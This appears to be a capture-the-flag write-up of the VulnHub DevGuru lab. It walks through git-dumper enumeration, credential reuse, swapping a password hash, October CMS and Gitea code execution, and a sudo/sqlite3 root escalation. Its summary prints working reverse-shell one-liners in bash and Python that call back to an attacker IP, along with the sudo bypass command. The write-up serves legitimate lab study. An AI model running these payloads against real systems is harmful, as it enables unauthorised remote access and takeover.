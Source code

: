 ```yaml
---
title: Devguru
categories: [VulnHub]
tags: [CMS, PrivEsc, Public Exploit, git, gitea, Password Generate, sudo exploit, OCTOBER CMS]
image:
  path: https://guyintheclouds.com/banner/devguru-vulnhub.png
  alt: Devguru Machine 📚
---
```


## **Description ⤵️**

>💡 [DevGuru](https://vulnhub.com/entry/devguru-1,620/) is a fictional web development company hiring you for a pentest assessment. You have been tasked with finding vulnerabilities on their corporate website and obtaining root.
>
>OSCP like ~ Real life based
>
>**Difficulty:** *Intermediate* (Depends on experience)
{: .prompt-info }


### **Let’s find the IP Address first >>**

![130-1.png](/Vulnhub-Files/img/Devguru/130-1.png)

```bash
IP : 10.0.2.26
```
{: .nolineno}
{: .nolineno}

## Port Scan Results ➡️

![131-1.png](/Vulnhub-Files/img/Devguru/131-1.png)

![131-2.png](/Vulnhub-Files/img/Devguru/131-2.png)

```bash
OPEN PORTS >
22   SSH
80   HTTP
8585 unknown
```
{: .nolineno}
{: .nolineno}

---

## Web Enumeration ⤵️

I checked port 80 and I got this static webpage.

![132-1.png](/Vulnhub-Files/img/Devguru/132-1.png)

After that I checked port 8585 and I got a gitea page, whose version is `Gitea Version 1.12.5`.

![132-2.png](/Vulnhub-Files/img/Devguru/132-2.png)

Now lets look into the directory traversal files / directories from feroxbuster and ffuf Tool →

![134-1.png](/Vulnhub-Files/img/Devguru/134-1.png)

![134-2.png](/Vulnhub-Files/img/Devguru/134-2.png)

I also looked into searchsploit for anyt public exploit for this `gitea` version.

![132-3.png](/Vulnhub-Files/img/Devguru/132-3.png)

Since it needs Authentication So I Have to find the username and the password to get the access →

![132-4.png](/Vulnhub-Files/img/Devguru/132-4.png)

Lets use nikto also →

![132-5.png](/Vulnhub-Files/img/Devguru/132-5.png)

Since I have gitea that also means that I would also have `.git` directory as that can I also be seen in `nikto` Tool scan above so lets take a look into it.

![132-6.png](/Vulnhub-Files/img/Devguru/132-6.png)

Now we have .git as a directory so its time to extract some git directories with the help of `git-dumper` →

![132-7.png](/Vulnhub-Files/img/Devguru/132-7.png)

Now lets recon further →

Data → `/git-dump/config/databases.php` →

![132-8.png](/Vulnhub-Files/img/Devguru/132-8.png)

```bash
'database'   => 'octoberdb',
'username'   => 'october',
'password'   => 'SQ66EBYx4GT3byXH'
While opening the git-dump directory I found → adminer.php →
```
{: .nolineno}
{: .nolineno}

I used this above info to login into the phpmyadmin site like this.

![132-9.png](/Vulnhub-Files/img/Devguru/132-9.png)

After using that credentials I got this →

![132-10.png](/Vulnhub-Files/img/Devguru/132-10.png)

I then cracked this password hash with is in bcrypt from online random site and I did not able to crack it.

![132-11.png](/Vulnhub-Files/img/Devguru/132-11.png)

Now As I have access to the database to lets change the password hash according to my password and I will be using password as `password` here from http://brypt-generator.com site →

![132-12.png](/Vulnhub-Files/img/Devguru/132-12.png)

>Lets replace the password and saving it,Now I can Logged in with `frank → password` cred.
{: .prompt-tip }

Now coming back the main site lets login with `frank → password` cred and I can see OCTOBER CMS.

![132-13.png](/Vulnhub-Files/img/Devguru/132-13.png)

I got a reverse shell for october cms →

![132-14.png](/Vulnhub-Files/img/Devguru/132-14.png)

![132-15.png](/Vulnhub-Files/img/Devguru/132-15.png)

When I saved the code I loaded the site and I got this →

![132-16.png](/Vulnhub-Files/img/Devguru/132-16.png)

After some enumeration I found this → on `/var/backups/app.ini.bak` →

![132-17.png](/Vulnhub-Files/img/Devguru/132-17.png)

Now I have the credentials of gitea for mysql services lets use it similar as we did before →

```bash
username → gitea
password → UfFPTF8C8jjxVF2m
```
{: .nolineno}
{: .nolineno}

![132-18.png](/Vulnhub-Files/img/Devguru/132-18.png)

![132-19.png](/Vulnhub-Files/img/Devguru/132-19.png)

with this I got in →

![132-20.png](/Vulnhub-Files/img/Devguru/132-20.png)

Now lets use that exploit →

![132-21.png](/Vulnhub-Files/img/Devguru/132-21.png)

The Exploit was not working so lets use the mannual code execution →

![132-22.png](/Vulnhub-Files/img/Devguru/132-22.png)

![132-23.png](/Vulnhub-Files/img/Devguru/132-23.png)

![132-24.png](/Vulnhub-Files/img/Devguru/132-24.png)

Now lets edit and commit any file so I choose [README.md](http://readme.md/) file →

![132-25.png](/Vulnhub-Files/img/Devguru/132-25.png)

![132-26.png](/Vulnhub-Files/img/Devguru/132-26.png)

![132-27.png](/Vulnhub-Files/img/Devguru/132-27.png)

Now I got it →

![133-1.png](/Vulnhub-Files/img/Devguru/133-1.png)

![133-2.png](/Vulnhub-Files/img/Devguru/133-2.png)

```bash
user.txt → 22854d0aec6ba776f9d35bf7b0e00217
```
{: .nolineno}
{: .nolineno}

Now lets check the `*sudo -l*` further and I got this →

![133-3.png](/Vulnhub-Files/img/Devguru/133-3.png)

lets use it →

```bash
command →
`sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash`
```
{: .nolineno}
{: .nolineno}

![133-4.png](/Vulnhub-Files/img/Devguru/133-4.png)

![133-5.png](/Vulnhub-Files/img/Devguru/133-5.png)

```bash
root.txt → 96440606fb88aa7497cde5a8e68daf8f
```
{: .nolineno}
{: .nolineno}

![133-6.png](/Vulnhub-Files/img/Devguru/133-6.png)

<hr>

# **Summery Notes →**

1. Git enumeration with git-dumper and executing the reverse shell was on good path.
2. I enjoyed the swaping of the password method from mysql .
3. I got to know about october CMS and its reverse shell code .
4. Also about the sudo vulnerability part ←

**october CMS reverse shell code -->**

```bash
function onstart(){    exec("/bin/bash -c 'bash -i >& /dev/tcp/10.0.2.10/4444 0>&1'");}
```
{: .nolineno}
{: .nolineno}

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.10",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
{: .nolineno}
{: .nolineno}

**root →**

```bash
sudo -u#-1 /usr/bin/sqlite3 /dev/null '.shell /bin/bash -i'
```
{: .nolineno}
{: .nolineno}

<hr>

> If you have any questions or suggestions, please leave a comment below.
Thank You ! 
{: .prompt-tip }